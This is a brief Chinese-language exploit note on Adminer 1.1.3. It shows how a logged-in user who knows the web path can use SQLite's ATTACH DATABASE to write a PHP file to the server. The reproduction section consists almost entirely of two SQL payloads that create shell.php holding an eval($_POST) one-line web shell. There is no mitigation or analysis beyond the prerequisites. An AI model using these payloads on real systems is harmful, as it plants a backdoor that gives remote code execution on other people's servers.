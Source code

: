 <h1>Adminers 1.1.3 （SQLite 3 写入一句话木马）</h1>
<h2>一、漏洞简介</h2>
<p>需要登陆Adminers，并且需要知道网站的路径。</p>
<h2>二、漏洞影响</h2>
<h2>三、复现过程</h2>
<pre><code>ATTACH DATABASE 'z.php' AS t;create TABLE t.e (d text);/*

ATTACH DATABASE '/网站/路径/shell.php' AS t;insert INTO t.e (d) VALUES ('&lt;?php eval($_POST[a])?&gt;');/*</code></pre>
